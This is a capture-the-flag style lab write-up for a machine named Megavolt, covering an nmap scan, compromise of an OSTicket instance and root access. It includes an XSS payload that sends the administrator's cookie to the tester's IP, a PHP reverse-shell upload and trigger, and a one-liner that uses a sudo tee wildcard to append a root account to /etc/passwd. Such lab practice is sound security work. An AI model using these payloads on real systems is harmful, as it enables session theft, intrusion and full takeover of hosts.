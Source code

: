 # Megavolt

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.115
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:29 +08
Nmap scan report for 192.168.183.115
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
22/tcp open   ssh
80/tcp open   http
```

We can start proxying traffic through Burp.&#x20;

### OSTicket --> XSS Admin Cookie

Port 80 hosted an OSTicket instance, which has a lot of vulnerabilities and exploits:

<figure><img src="../../../.gitbook/assets/image (98) (8).png" alt=""><figcaption></figcaption></figure>

I  registered a new user and opened a ticket. When I viewed the status, it seems that an 'Alfred Smith' closes the tickets:

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

This confirms that a user is indeed viewing the tickets, and we can try to use an XSS exploit for it. The file upload function is vulnerable to an XSS exploit:

{% embed url="https://www.exploit-db.com/exploits/47224" %}

We can upload this HTML file to steal the administrator's cookie:

{% code overflow="wrap" %}
```markup
<script>new Image().src='http://192.168.45.208/?cookie=' + encodeURI(document.cookie);</script>
```
{% endcode %}

As soon as we upload the file and submit a new ticket, we get this on a listener port:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Using this cookie, we can then login to OSTicket at `/scp` by changing our cookie within Burp:

<figure><img src="../../../.gitbook/assets/image (25) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### OSTicket RCE

Within the settings of the Admin Panel, we can find the version of OSTicket running:

<figure><img src="../../../.gitbook/assets/image (19) (9).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit. To exploit it, we first need to enable the plugin that stores attachments within the file system of the machine:

<figure><img src="../../../.gitbook/assets/image (9) (2) (3).png" alt=""><figcaption></figcaption></figure>

Afterwards, in the settings, make sure to change the Attachment settings:

<figure><img src="../../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

Then, we need to open a new ticket and upload a PHP reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

View the ticket from the Administrator account:

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

If we click on the attachment, it would generate a GET request to the `file.php` file with a key:

<figure><img src="../../../.gitbook/assets/image (88) (4).png" alt=""><figcaption></figcaption></figure>

This is the URL key, and we need one more key which is the File key. This can be generated by doing the following:

```
$ php -a 
Interactive shell

php > $sha1 = base64_encode(sha1_file('shell.php', true));
php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));
Y2_qPxdA2XMAeDyyloBdYykx9uE
```

Then, we can finally use this repository's script to trigger the shell:

{% embed url="https://github.com/Und3r-r00t/osticket-shell" %}

The exploit took me quite a few times before it worked. If it doesn't work, upload your shell with a different name. In my case, `shell.php` worked.&#x20;

<figure><img src="../../../.gitbook/assets/image (17) (2) (4).png" alt=""><figcaption></figcaption></figure>

The script would brute force every possible directory that the PHP shell is in before executing it:

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Tee + Wildcard --> Root

We can check our `sudo` privileges on the machine:

```
bash-4.2$ sudo -l 
Matching Defaults entries for apache on megavolt:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User apache may run the following commands on megavolt:
    (ALL) NOPASSWD: /usr/bin/tee /var/log/httpd/*
```

Because there's a wildcard there, we can basically run `tee` to write to any file we want. First, generate a new password hash:

```
$ openssl passwd -1 hello123
$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.
```

Then, write this to the `/etc/passwd` file using this one-liner:

{% code overflow="wrap" %}
```bash
(cat /etc/passwd && echo 'innocent:$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.:0::/root:/bin/sh') | sudo tee /var/log/httpd/../../../../../../etc/passwd
```
{% endcode %}

This would add our new entry into the `/etc/passwd` file and we can `su` to become `root`:

<figure><img src="../../../.gitbook/assets/image (12) (1) (9).png" alt=""><figcaption></figcaption></figure>

Rooted!
